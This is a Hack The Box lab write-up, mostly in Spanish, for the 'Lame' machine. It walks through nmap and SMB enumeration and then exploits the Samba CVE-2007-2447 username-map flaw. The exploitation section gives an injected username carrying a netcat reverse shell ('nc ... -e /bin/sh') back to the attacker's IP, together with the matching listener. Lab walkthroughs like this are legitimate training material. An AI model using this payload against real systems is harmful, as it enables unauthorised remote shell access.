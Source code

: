 ```yaml
---
title: Lame
date: '2023-07-07'
lastmod: '2023-08-05'
tags: ['labs', 'HackTheBox']
draft: false
summary: 'Lame is a beginner-level machine that only requires one exploit to gain root access. It was the first machine published on Hack The Box and is often the first machine for new users.'
images: ['/static/images/htb/lame/Lame.png']
---
```


![Portada](/static/images/htb/Lame/Lame.png)

# [CHECK OUT THE VIDEO TUTORIAL](https://www.youtube.com/watch?v=qDNVy6n9Jds)

<TOCInline toc={props.toc} exclude="Introduccion" />

## RECONNAISANCE

### Ping

First of all, we verify that we are on the same network as the victim machine by sending a data packet to the IP 10.10.10.3 using the ping command.

```js
  ping -c 4 10.10.10.3
```

- `-c` : Number of ICMP (Internet Control Message Protocol) echo request packets that will be sent.

![Ping](/static/images/htb/Lame/ping.png)

### Nmap

Then, we perform the port scan.

```js
  nmap -p- --open 10.10.10.3 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Solo va a reportar los puertos que encuentre abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Nmap1](/static/images/htb/Lame/nmap1.png)

Al obtener la lista de los puertos abiertos en la maquina victima,realizamos otro escaneo pero solo a los que
nmap reporto como abiertos incluyendo las siguientes flags:

- `-sC` : Activa el escaneo utilizando scripts de enumeración y detección de servicios predeterminados. Los scripts se ejecutan contra los puertos abiertos para obtener información adicional sobre los servicios en ejecución.
- `-sV` : Realiza una detección de versión de los servicios que se encuentran en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando diversos métodos, como el envío de solicitudes específicas y la comparación de las respuestas recibidas.
- `-p` : Especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Indica a Nmap que realice el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes ICMP de solicitud de eco.

```js
  nmap -sC -sV -p21,22,19,445,62 10.10.10.3 -Pn
```

![Nmap2](/static/images/htb/Lame/nmap2.png)

### Puertos abiertos

| Puertos abiertos | Servicio    | Version              |
| ---------------- | ----------- | -------------------- |
| **_21/tcp_**     | ftp         | vsftpd 2.3.4         |
| **_22/tcp_**     | SSH         | Open SSH 4.7p1       |
| **_139/tcp_**    | netbios-ssn | Samba smbd 3.x - 4.x |
| **_445/tcp_**    | netbios-ssn | Samba smbd 3.0.20    |
| **_3632/tcp_**   | distccd     | distccd v1           |

## ENUMERACION

### Puerto 21 - FTP

El puerto 21 se utiliza comúnmente para el protocolo FTP (File Transfer Protocol), que es un protocolo estándar para la transferencia de archivos entre sistemas informáticos en una red. El protocolo FTP permite a los usuarios transferir archivos de un equipo a otro a través de una red. El puerto 21 se utiliza para establecer la conexión de control entre el cliente FTP y el servidor FTP. En esta conexión, el cliente envía comandos al servidor para solicitar operaciones como la autenticación del usuario, listar archivos en el servidor, crear directorios, descargar o subir archivos, entre otros. Es importante tener en cuenta que el protocolo FTP es un protocolo no seguro, ya que la información se transmite en texto plano, incluyendo las credenciales de inicio de sesión.

Al realizar una busqueda por google, encontramos que la `version 2.3.4` tiene una vulnerabilidad [CVE 2011-2523](https://www.exploit-db.com/exploits/49757).

![Exploit](/static/images/htb/Lame/exploit1.png)

Como se ve en el script, al aplicar el “:)” en el nombre del usuario y poner una contraseña cualquiera, se abriria el puerto 6200.
Pero, al tratar de realizar estos pasos y luego confirnar con nmap si el puerto 62000 esta abierto, nos reporta que esta filtrado. Por ende, no es vulnerable a esta accion.

En el reconocimiento con nmap, hallamos que el inicio de sesion anonimo estaba disponible, pero al ingresar vemos que el directorio esta vacio.

![Ftp](/static/images/htb/Lame/ftp.png)

### Puerto 22 - SSH

Como no tengo credenciales validas, continuo al siguiente puerto abierto.

### Puertos 139 - 445 - Samba (SMB)

SMB es un protocolo de red utilizado para compartir archivos, impresoras y otros recursos entre computadoras en una red. Se encuentra comúnmente en sistemas operativos basados en Unix y Linux, y se utiliza para establecer una conexión con un servidor SMB, explorar recursos compartidos, listar archivos y directorios, transferir archivos entre el cliente y el servidor, y ejecutar comandos remotos en el servidor SMB.

Para acceder a este servidor utilizamos `smbclient`. Al usar smbclient, puedes autenticarte en un servidor SMB proporcionando un nombre de usuario y una contraseña válidos. Una vez que hayas establecido una conexión con el servidor, puedes utilizar comandos similares a los de una interfaz de línea de comandos para interactuar con los recursos compartidos, como copiar archivos, eliminar archivos, crear directorios, obtener información sobre archivos y más.

```js
  smbclient -L 10.10.10.3
```

El comando "smbclient -L 10.10.10.3" se utiliza para enumerar los recursos compartidos disponibles en un servidor SMB específico.

Cuando ejecutas este comando, smbclient establece una conexión con el servidor SMB y solicita la lista de recursos compartidos disponibles en ese servidor.
Esto puede incluir carpetas compartidas, impresoras compartidas u otros recursos que estén configurados para compartir a través del protocolo SMB en el servidor.

![Ftp](/static/images/htb/Lame/smb1.png)

Con `smbmap` vemos los permisos en los dispositivos compartidos.

```js
  smbmap -H 10.10.10.3
```

![Ftp](/static/images/htb/Lame/smb2.png)

En la carpeta `tmp` tenemos permisos de lectura y escritura.

Vamos a buscar en searchsploit si esta version de smb tiene alguna vulnerabilidad conocida.

![Exploit](/static/images/htb/Lame/exploit.png)

Con el comando `searchsploit -x 16320.rn` podemos ver el codigo y entender que ocurre por detras o en google podemos verlo en [Exploit Database](https://www.exploit-db.com/) como [CVE 2007-2447](https://www.exploit-db.com/exploits/16320)

La parte mas importante del script esta aqui, al ingresar el nombre de usuario y pasarle el comando nohup ,seguido de un payload, le vamos a ingresar una reverse shell para que la maquina victima se conecte a la nuestra.

![Exploit](/static/images/htb/Lame/exploit2.png)

> En Linux, el comando nohup se utiliza para ejecutar un programa o script de manera persistente, incluso después de cerrar la terminal o sesión de inicio de sesión.

## EXPLOTACION

En nuestra maquina local vamos a ejecutar el comando `nc -nlvp 4646`.

Esto crea un listener en el puerto 4646 de la máquina local, lo que significa que Netcat estará a la espera de conexiones entrantes en ese puerto. Esto es útil para establecer una conexión de red entre dos máquinas y permitir que una de ellas actúe como servidor o receptor de datos en el puerto especificado.

- `-n`: Indica a Netcat que no realice la resolución inversa de las direcciones IP o nombres de host.
- `-l`: Activa el modo de escucha, permitiendo que Netcat escuche conexiones entrantes en lugar de iniciar una conexión saliente.
- `-v`: Habilita el modo verboose (detallado) y muestra información adicional sobre las conexiones entrantes y salientes.
- `-p 4646`: Especifica el número de puerto en el que Netcat debe escuchar las conexiones entrantes. En este caso, el puerto elegido es el 4646.

Por otro lado, cuando nos conectemos por ftp a la maquina victima y estemos dentro, usaremos el comando logon para autenticarnos y aprovecharemos de la vulnerabilidad antes mencionada pasndole como usuario:

```js
'/=`nohup nc -nv 10.10.14.10 4646 -e /bin/sh`'
```

El comando `nc -nv 10.10.14.10 4646 -e /bin/sh` utiliza la herramienta Netcat (nc) para establecer una conexión de red con la dirección IP `10.10.14.10` en el puerto 4646 y ejecutar el shell `(/bin/sh)` en el sistema remoto:

- `-n`: Esta opción indica a Netcat que no realice la resolución inversa de las direcciones IP o nombres de host.
- `-v`: Esta opción habilita el modo verbose (detallado) y muestra información adicional sobre las conexiones entrantes y salientes.
- `10.10.14.10`: Es la dirección IP del sistema remoto al que se desea conectarse.
- `4646`: Es el número de puerto en el que se establecerá la conexión.
- `-e /bin/sh`: Especifica el comando que se ejecutará en el sistema remoto una vez que se establezca la conexión. En este caso, se ejecutará el shell ("/bin/sh"), lo que nos va a proporcionar una interfaz de línea de comandos en el sistema remoto.

![Explotacion](/static/images/htb/Lame/explotacion.png)

Una vez dentro, vemos que somos el usuario privilegiado root y vamos por las banderas user.txt y root.txt.
![Fin](/static/images/htb/Lame/fin.png)
